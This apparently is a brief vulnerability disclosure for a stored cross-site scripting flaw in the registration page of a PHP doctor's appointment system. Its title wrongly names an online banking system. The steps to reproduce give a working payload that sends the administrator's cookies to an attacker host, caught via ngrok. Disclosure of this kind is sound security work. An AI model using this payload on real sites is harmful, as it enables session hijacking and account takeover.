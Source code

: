 # Tittle: Online Banking System Stored XSS

## Author: (B3nj1)

### Vendor Homepage: [https://www.sourcecodester.com/](https://www.sourcecodester.com/)

### Software Link: [Doctor's Appointment System](https://www.sourcecodester.com/php/14467/simple-doctors-appointment-system-using-phpmysql-source-code.html)

### Version: 1.0

## CVE: 
-  **Description:** Doctor's Appointment System 1.0 is vulnerable to Cross Site Scripting (XSS) through the registration page. A client can craft a malicious payload, when the administrator goes to the "user menu" the payload will be executed and the administrator's cookies will be sent to the attacker's server.

### Steps to reproduce:
- 1- Go to [http://localhost/doctors_appointment/](http://localhost/doctors_appointment/)
- 2- Select the option to create an account, here we place the payload we want:

```javascript
<img src=x onerror=this.src='http://10.0.0.158/?c='+document.cookie>
```
### Client:

![image](https://user-images.githubusercontent.com/76759292/166503449-f3d5c383-08c8-446d-b82c-3e0ef46cd143.png)




- 3- Using a ngrok http server to get the request with the administrator cookie
